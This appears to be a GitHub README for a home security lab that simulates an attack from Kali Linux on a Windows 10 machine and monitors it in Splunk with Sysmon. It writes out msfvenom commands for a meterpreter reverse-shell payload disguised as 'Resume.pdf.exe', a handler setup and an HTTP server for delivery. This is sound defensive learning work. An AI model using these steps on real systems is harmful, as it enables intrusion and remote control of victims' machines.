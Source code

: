 # detection-lab

Objective

The detection-lab project aimed to establish a environment for simulating and detecting cyber attacks. The main focus was to ingest and analyze logs within a Splunk. This hands-on experience was designed to deepen understanding of network security, attack patterns, and defensive strategies.

Skills Learned

- Understanding of SIEM and practical application.
- Analyzing network logs.
- Ability to generate and recognize attack signatures.
- Knowledge of network protocols and security vulnerabilities.
- Development of critical thinking and problem-solving skills in cybersecurity.

Tools Used

- Splunk for log ingestion and analysis.
- Splunk Universal Forwarder and Sysmon for log collecting/forwarding
- Kali Linux/Metasploit to create realistic network traffic and attack scenarios.

Network Diagram

![detection-lab](https://github.com/user-attachments/assets/df197dc4-81d7-48bd-8549-f5e0e13e41ce)

Steps

First, we need to understand the network connections in the virtual environment. The network we use when testing tools and using sandbox will be different. When analyzing malware, we should not have access to the Internet.

- Testing Tools     ---> NAT, NAT Network, Bridged
- Analyzing Malware ---> Host-Only, Internal Network/LAN Segment, Not Attached

In this lab, the lab environment was not connected to the Internet because of the creation of malware with Kali Linux and the attack on the Windows machine.

1-Installation and Setup of Virtual Machines 

- Kali Linux (attacker), Windows 10 (victim) and Ubuntu 22.04 (Splunk) were installed on VirtuelBox as virtual machines.
- As a network ‘NAT Network' was selected and static IP address was determined on each virtual machine.
- After installing virtual machines, we saw that they were reachable with the ‘ping’ command.
- Splunk Enterprise was installed on the Ubuntu machine to view logs.
- Universal Forwarder and Sysmon were installed on Windows 10 machine to send logs to Splunk.

2-Attack Scenario 

- First I did a port scan with 'nmap' and saw that RDP port 3389 was open. nmap –A 
    - 192.168.10.100 -Pn 

- Secondly, I created malware with the 'msfvenom' payload. Here I chose the 'meterpreter/reverse_tcp' payload. 
    - msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.10.250 lport=4444 -f ece -o Resume.pdf.exe 

- With this malware we will obtain a 'reverse shell' and create a connection to our own machine. After logging into the msfconsole where I will execute the attack, I entered the values for the payload we selected and started the attack.
    - use exploit/multi/handler 
    - options #to see what we can configure 
    - set payload windows/x64/meterpreter/reverse_tcp 
    - set lhost 192.168.2.250 
    - set lport 4444 #this is already given 
    - exploit 

- After that, we wait for the victim machine to run the malware. For this we will create an HTTP Server on the Kali Linux machine so that the victim machine can download the malware from there. 
    - python3 -m http.server 9999 #make sure to run it in the directory where the malware is located 

3-Exploitation 
 
- First we need to deactivate Windows Security on the Windows (victim) machine. Then I connected to the 192.168.0.250:9999 server from the web browser and downloaded the malware file 'Resume.pdf.exe' and ran it. When I looked at the network connections from the cmd console, I saw that there was a TCP connection from 192.168.10.100 to 192.168.10.250. 
    - netstat -anob 

- After that, we can now connect to the Windows machine with the 'shell' command on the Kali Linux machine and enter the commands we want. 

4-Monitoring with Splunk 

- Since I have installed sysmon on the Windows (victim) machine and configured it correctly to send logs to Splunk, I can deep dive into logs. 

Note: Sysmon logs are not fully parsed by Splunk so don't forget to install Splunk Add-on for Sysmon to get more fields. 
